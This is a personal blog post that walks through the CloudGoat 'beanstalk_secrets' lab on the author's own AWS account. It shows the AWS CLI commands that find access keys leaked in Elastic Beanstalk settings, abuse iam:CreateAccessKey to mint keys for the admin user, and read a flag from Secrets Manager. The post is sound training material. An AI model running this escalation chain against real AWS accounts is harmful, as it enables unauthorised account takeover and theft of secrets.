+++
title = 'Hands on Cloud Pentesting: 0 to Hero with 0$'
date = 2025-05-16T15:31:23+05:30
draft = false
series = "Hands on Cloud Pentesting"
tags = ["cloud","pentesting","aws"]
+++

<!--more-->

## Introduction

I have been wanting to learn cloud Pentesting for a while now and struggled to find resources/courses which are affordable and provides hands on practise. Coming from a CTF background I really enjoy challenge based learning and I have found a few resources online which meet the criteria of no(low) cost to entry and hands on keyboard experience. Through this blog, which may become a series, I hope to keep track of my progress and also share what I learn for others who are on the same boat.

AWS is what I will be starting with since it has the highest market share right now and most of the resources/content covers AWS. I do plan on checking out Azure and GCP in the future. As far as my current knowledge with AWS pentesting goes it is near zero. I have interacted with a few S3 challenges that have been in CTF challenges in the past but apart from that the cloud knowledge I have revolves around deploying and handling servers(VM's, EC2's, Compute Engines whatever they're called). The first course I did to cover the base knowledge is [AWS Cloud Practitioner Essentials](https://explore.skillbuilder.aws/learn/courses/134/aws-cloud-practitioner-essentials/lessons) which is a free course provided by AWS covering a lot of the basic "what is cloud" and a few services provided by AWS(EBS, S3, EFS, RDS etc.). The course is purely theoretical but helps bulid a base.

Coming to hands-on AWS pentesting, popular training platforms like [tryhackme](https://tryhackme.com/cloud-access) and [hackthebox](https://www.hackthebox.com/business/professional-labs/cloud-labs-blacksky) have their selections of cloud-focused labs but they're behind a pretty steep paywall and meant for "business plans". Tryhackme did collaborate with a creator [Tyler Ramsbey](https://www.youtube.com/@TylerRamsbey) who has released the streams of him going over the AWS pentesting course(pathway) for free on [youtube](https://youtu.be/JUO-m5ga-gc?si=pm1ilRVikeOdcPiO) but since the labs are still not accessible to the public, it doesn't qualify as "hands-on" learning for me, albeit the streams are pretty good. I'd recommend it to anyone wanting a more structured path(which is available for free). Tyler Ramsbey's channel also led me to find [Cloudgoat](https://github.com/RhinoSecurityLabs/cloudgoat), [Pwnedlabs](https://pwnedlabs.io/) and [Flaws 2](http://flaws2.cloud/) which are free* platforms providing labs and scenarios that you can set up locally or with a free account to learn cloud pentesting.

---

## Cloudgoat


I want to start off with [CloudGoat](https://github.com/RhinoSecurityLabs/cloudgoat) which, according to their website is, "Rhino Security Labs' "Vulnerable by Design" cloud deployment tool. It allows you to hone your cloud cybersecurity skills by creating and completing several "capture-the-flag" style scenarios. Each scenario is composed of cloud resources arranged together to create a structured learning experience. Some scenarios are easy, some are hard, and many offer multiple paths to victory. As the attacker, it is your mission to explore the environment, identify vulnerabilities, and exploit your way to the scenario's goal(s)." This was intriguing to me as it provided sort of a "locally" deployed learning platform to learn cloud pentesting, kind of like DVWA for Web apps. The term "locally" is not exactly correct but everything is deployed on your own aws account and you decide which lab/scenario to spin up and you have complete control over it. But yes, it does require an AWS account(Azure too if you want to try that but I'll not be doing that now) to get AWS access keys which are needed to deploy each scenario. So without any further ado, lets get started.


### Setup and Installation

Being completely new to AWS and to avoid any unwanted charges to my card when setting up AWS I followed a step by step guide I found at [https://github.com/GainSec/CloudGoatTutorial](https://github.com/GainSec/CloudGoatTutorial). The setup process walks you through creating Users, User Groups, modifying policies etc. using the GUI.

Once AWS is setup and you have access keys, the next step is to install cloudgoat and add the access keys. To install cloudgoat just follow the instructions at [https://github.com/RhinoSecurityLabs/cloudgoat?tab=readme-ov-file#quick-start](https://github.com/RhinoSecurityLabs/cloudgoat?tab=readme-ov-file#quick-start). Fow now I am only going to configure aws with `cloudgoat config aws` and will leave azure for later. And that's it; cloudgoat is setup and ready to go. Another command to run before getting started is:
```bash
cloudgoat config whitelist --auto
```
This command according to the [usage guide](https://github.com/RhinoSecurityLabs/cloudgoat#usage-guide) makes a curl request to ifconfig.co to find the IP address of your device and then create a `whitelist.txt` file which is used to add a whitelist IP filter to the potentially vulnerable resources that are deployed in the cloud.

---

Alright, so now that cloudgoat is installed and setup lets get straight into the first scenario. 

Currently the first scenario under the "Easy" category is beanstalk_secrets so lets dive into it

## beanstalk_secrets (Easy)

[Scenario Page](https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/cloudgoat/scenarios/aws/beanstalk_secrets/README.md)
### Description
In this scenario, you are provided with low-privileged AWS credentials that grant limited access to Elastic Beanstalk. Your task is to enumerate the Elastic Beanstalk environment and discover misconfigured environment variables containing secondary credentials. Using these secondary credentials, you can enumerate IAM permissions to eventually create an access key for an administrator user. With these admin privileges, you retrieve the final flag stored in AWS Secrets Manager.

#### Scenario Goal(s)
Retrieve the final flag from AWS Secrets Manager by escalating privileges from a low-privileged user to an administrator account.

### Solution

The command to start the scenario is
```bash
cloudgoat create beanstalk_secrets
```



The scenario failed to deploy the first time I tried running it.

Opting for the easiest way to troubleshoot, I sent the error to ChatGPT 😅. And sure enough, it provided a quick fix and the commands needed to find what I need for the fix. The error mentioned that "SolutionStack named '64bit Amazon Linux 2023 v4.5.0 running Python 3.13' " was not found, and all we had to do was find currently available Elastic Beanstalk platforms in our region using
```bash
aws elasticbeanstalk list-available-solution-stacks
```

The above image shows the version difference between the one that was used before(the config that errored out) and the currently available one showed in the output of the command.
Change the `solution_stack_name` within the Terraform config ec2.tf file in
```md
~/.local/pipx/venvs/cloudgoat/lib/python3.11/site-packages/cloudgoat/scenarios/aws/beanstalk_secrets/terraform/ec2.tf
```
and you should be good to go


Once the scenario is deployed, we are provided with AWS Access key and Secret key for `initial_low_priv_credentials` account.

Cloudgoat provides cheatsheets and [walkthroughs](https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/cloudgoat/scenarios/aws/beanstalk_secrets/cheat_sheet.md) for all scenarios which is something that I will be referring to from time to time but will try to keep as a last resort.

Before we start pentesting, using the AWS Dashboard, Lets take a look at what all resources are deployed by cloudgoat on our AWS account right now.

1 VPC (EC2)

1 Elastic Beanstalk Environment

1 IAM Low-Privilege User   
1 IAM Secondary User  
and 1 IAM admin user which is our goal ("escalating privileges from a low-privileged user to an administrator account")

1 AWS Secrets manager Secret.


Moving back from the AWS Dashboard, lets try to figure out what we can do with the provided access key and secret. Looking around few AWS hacking cheatsheets, [this one](https://hackingthe.cloud/aws/general-knowledge/using_stolen_iam_credentials/) seems to kinda match our scenario, as we have "stumbled upon" AWS IAM credentials. The first thing we can do is [configure the credentials](https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-quickstart.html) to use them with the AWS CLI.

Then we can use the [sts:GetCallerIdentity](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sts/get-caller-identity.html) API to determine if the credentials are valid and tell us useful information about the name of the role/user associated with these credentials
```bash
aws sts get-caller-identity --profile beanstalk-low-priv
```

This gives us userid, account and Arn. 

Now onto enumeration with the IAM User we have. Using `aws iam help` we can get a list of all available commands and try out listing the attached [policies](https://docs.aws.amazon.com/IAM/latest/UserGuide/access_policies.html#policies_id-based) but it seems like we don't have permission to list any.


Since the scenario description mentions ["Elastic Beanstalk"](https://docs.aws.amazon.com/elasticbeanstalk/latest/dg/Welcome.html), lets try going in that direction. AWS Cli provides a list of valid elasticbeanstalk commands if you give an invalid command (or use help command to get descriptions for each valid command also)
```bash
aws elasticbeanstalk invalid
aws elasticbeanstalk help
```

After trying out a few commands, I landed on describe-applications
```bash
aws elasticbeanstalk describe-applications --profile beanstalk-low-priv --region us-east-1
```

This gives us the following details about a running application
```json
{
    "Applications": [
        {
            "ApplicationArn": "arn:aws:elasticbeanstalk:us-east-1:139343766080:application/cgidwkroiranyq-app",
            "ApplicationName": "cgidwkroiranyq-app",
            "Description": "Elastic Beanstalk application for insecure secrets scenario",
            "DateCreated": "2025-05-28T11:00:51.988Z",
            "DateUpdated": "2025-05-28T11:00:51.988Z",
            "ConfigurationTemplates": [],
            "ResourceLifecycleConfig": {
                "VersionLifecycleConfig": {
                    "MaxCountRule": {
                        "Enabled": false,
                        "MaxCount": 200,
                        "DeleteSourceFromS3": false
                    },
                    "MaxAgeRule": {
                        "Enabled": false,
                        "MaxAgeInDays": 180,
                        "DeleteSourceFromS3": false
                    }
                }
            }
        }
    ]
}
```
The following command gives us a list of environments
```bash
aws elasticbeanstalk describe-environments --profile beanstalk-low-priv --region us-east-1
```
```json
{
    "Environments": [
        {
            "EnvironmentName": "cgidwkroiranyq-env",
            "EnvironmentId": "e-tppvjifsmm",
            "ApplicationName": "cgidwkroiranyq-app",
            "SolutionStackName": "64bit Amazon Linux 2023 v4.5.2 running Python 3.13",
            "PlatformArn": "arn:aws:elasticbeanstalk:us-east-1::platform/Python 3.13 running on 64bit Amazon Linux 2023/4.5.2",
            "EndpointURL": "awseb-e-t-AWSEBLoa-19H1XTOMZ85M6-1608994881.us-east-1.elb.amazonaws.com",
            "CNAME": "cgidwkroiranyq-env.eba-bmg2xppc.us-east-1.elasticbeanstalk.com",
            "DateCreated": "2025-05-28T11:01:11.743Z",
            "DateUpdated": "2025-05-28T11:03:54.960Z",
            "Status": "Ready",
            "AbortableOperationInProgress": false,
            "Health": "Grey",
            "HealthStatus": "Unknown",
            "Tier": {
                "Name": "WebServer",
                "Type": "Standard",
                "Version": "1.0"
            },
            "EnvironmentLinks": [],
            "EnvironmentArn": "arn:aws:elasticbeanstalk:us-east-1:139343766080:environment/cgidwkroiranyq-app/cgidwkroiranyq-env"
        }
    ]
}
```

Using the application name and the environment name that we have now, we can run the "describe-configuration-settings" command to show all configuration settings of the deployed application
```bash
aws elasticbeanstalk describe-configuration-settings --profile beanstalk-low-priv --region us-east-1 --application-name cgidwkroiranyq-app --environment-name cgidwkroiranyq-env
```
Within the configuration settings, we can see Environment variables which contains an AWS Access key and a secret key.

This is the secondary credentials as mentioned in the Scenario Description.

Using this access key we can setup another profile and do the iam enumeration agian.


Remember, our end goal is to get the final flag from AWS Secrets Manager and this account sadly does not have the permissions to do that.


Going back to iam enumeration, this time, following command works and we seem to be able to list-users, policies, attached-user-policies and so on:
```bash
aws iam list-attached-user-policies --profile beanstalk-mid-priv --user-name cgidwkroiranyq_secondary_user
```

We find a [custom managed policy](https://docs.aws.amazon.com/IAM/latest/UserGuide/access_policies.html#managedpolicy) as seen above.

Using the following command, we can see that v1 is the default policy version being used
```bash
aws iam get-policy --profile beanstalk-mid-priv --policy-arn "arn:aws:iam::139343766080:policy/cgidwkroiranyq_secondary_policy"
```
We can get the policy with the follwing command
```bash
aws iam get-policy-version --profile beanstalk-mid-priv --policy-arn "arn:aws:iam::139343766080:policy/cgidwkroiranyq_secondary_policy" --version-id v1
```
```json
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": [
                        "iam:CreateAccessKey"
                    ],
                    "Effect": "Allow",
                    "Resource": "*"
                },
                {
                    "Action": [
                        "iam:ListRoles",
                        "iam:GetRole",
                        "iam:ListPolicies",
                        "iam:GetPolicy",
                        "iam:ListPolicyVersions",
                        "iam:GetPolicyVersion",
                        "iam:ListUsers",
                        "iam:GetUser",
                        "iam:ListGroups",
                        "iam:GetGroup",
                        "iam:ListAttachedUserPolicies",
                        "iam:ListAttachedRolePolicies",
                        "iam:GetRolePolicy"
                    ],
                    "Effect": "Allow",
                    "Resource": "*"
                }
            ],
            "Version": "2012-10-17"
        },
        "VersionId": "v1",
        "IsDefaultVersion": true,
        "CreateDate": "2025-05-28T11:00:52Z"
    }
}
```

The action that seems interesting to us is `iam:CreateAccessKey` [https://docs.aws.amazon.com/cli/latest/reference/iam/create-access-key.html](https://docs.aws.amazon.com/cli/latest/reference/iam/create-access-key.html). Using this we can perform the following actions.

```bash
aws iam list-users --profile beanstalk-mid-priv
aws iam create-access-key --profile beanstalk-mid-priv --user-name cgidwkroiranyq_admin_user
aws configure --profile beanstalk-high-priv
aws secretsmanager list-secrets --profile beanstalk-high-priv --region us-east-1
aws secretsmanager get-secret-value --profile beanstalk-high-priv --region us-east-1 --secret-id cgidwkroiranyq_final_flag
```









> Flag = FLAG{D0nt_st0r3_s3cr3ts_in_b3@nsta1k!}

> Note: after completing the scenario, don't forget to use `cloudgoat destroy beanstalk_secrets` to stop the scenario and all associated resources on AWS


In the title I mentioned "Zero to Hero with 0$" but this lab did end up billing me for USD 0.01 for a public IPv4 address under VPC.

AWS [12 months free](https://aws.amazon.com/free/?all-free-tier.sort-by=item.additionalFields.SortRank&all-free-tier.sort-order=asc&awsf.Free%20Tier%20Types=tier%2312monthsfree&awsf.Free%20Tier%20Categories=*all&awsm.page-all-free-tier=1) only lists EC2 and 750 hours per month of IPv4 hence I assume VPC being used for the Elastic Beanstalk Environment was assigned an Elastic IP and that's what incurred the cost.
At the end, it did not end up costing me anything as it was Waived automatically... not sure whether that was because it was only USD 0.01 or if it was because it was the end of the month and I had no other charges last month to add on to USD 0.01.
